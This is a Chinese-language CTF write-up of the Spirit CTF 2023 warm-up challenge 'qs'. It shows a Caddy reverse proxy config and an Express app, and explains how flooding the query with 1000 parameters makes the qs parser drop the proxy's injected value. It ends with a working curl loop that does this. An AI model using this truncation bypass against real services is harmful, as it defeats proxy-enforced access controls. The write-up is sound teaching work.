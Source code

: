# Spirit CTF 2023 热身赛题解 - qs
#Web #caddy #nodejs #express #qs 

碎碎念
---
这题是CrackTC的心理阴影qaq，~~抄袭自~~灵感来源于日本人主办的一个CTF（忘了名字）的签到题，算是第一次打正式比赛，然后因为这题爆零了wuwuwu

---

`Caddyfile`
---

```c
:80 {
    rewrite * {path}?{query}&proxy=caddy
    reverse_proxy 127.0.0.1:2333
}
```

这里是caddy作为反向代理服务器，把请求分发给2333端口之前在url的结尾加上了`proxy=caddy`

`index.js`
---

```js
require("express")()
    .get("/", (request, response) => {
        request.query.proxy.includes("caddy")
            ? response.status(400).send("I don't like caddy:(")
            : response.send(`\\/\\/\\/caddy wa saikou!\\/\\/\\/<br>${process.env.FLAG ?? "Spirit{fake-flag-qwq}"}`);
    })
    .listen(2333, "0.0.0.0")
```

这里是node作为后端服务器监听2333端口，如果url查询中的proxy参数包含caddy就无法获得flag

因为docker镜像只expose并映射了80端口~~（frp好像也只通了80端口）~~，所以想要直接访问2333端口是行不通的～

在这种情况下，最有可能取得突破的地方就是双方对数据的不同解读啦（利用数据一致性上的漏洞或许算是比较常见的思路）

我们尝试阅读express关于url query的[文档](https://expressjs.com/en/4x/api.html#req.query)

> The value of this property can be configured with the [query parser application setting](https://expressjs.com/en/4x/api.html#app.settings.table) to work how your application needs it. A very popular query string parser is the [`qs` module](https://www.npmjs.com/package/qs), and this is used by default.

[ljharb/qs](https://github.com/ljharb/qs)

在README中可以找到这样一段话

> The depth limit helps mitigate abuse when **qs** is used to parse user input, and it is recommended to keep it a reasonably small number.
> 
> For similar reasons, by default **qs** will only parse up to 1000 parameters.

默认情况下qs会限制1000个参数，多复制粘贴几遍就能把最后的caddy顶掉

也不能太长，不然也要罢工啦～

```shell
query='?proxy=none'

for i in {1..999}
do
    query=$query'&proxy=none'
done

curl 'http://<host>:<port>/'$query
```

![](<./img/Pasted image 20230509204553.png>)

